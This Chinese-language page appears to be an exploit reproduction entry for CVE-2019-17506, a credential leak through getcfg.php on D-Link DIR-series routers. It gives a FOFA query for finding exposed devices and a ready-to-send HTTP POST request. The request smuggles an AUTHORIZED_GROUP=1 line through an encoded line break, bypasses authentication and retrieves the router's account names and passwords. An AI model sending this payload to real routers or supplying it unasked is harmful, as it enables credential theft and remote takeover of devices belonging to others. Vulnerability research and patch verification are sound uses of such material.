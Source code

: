 # D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

<a-checkbox checked>D-Link Dir 系列多个版本</a-checkbox></br>

## FOFA

<a-checkbox checked>app="D_Link-DIR-868L"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/link-14.png)



发送下请求包

```plain
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```



![img](../../../.vuepress/public/img/link-15.png)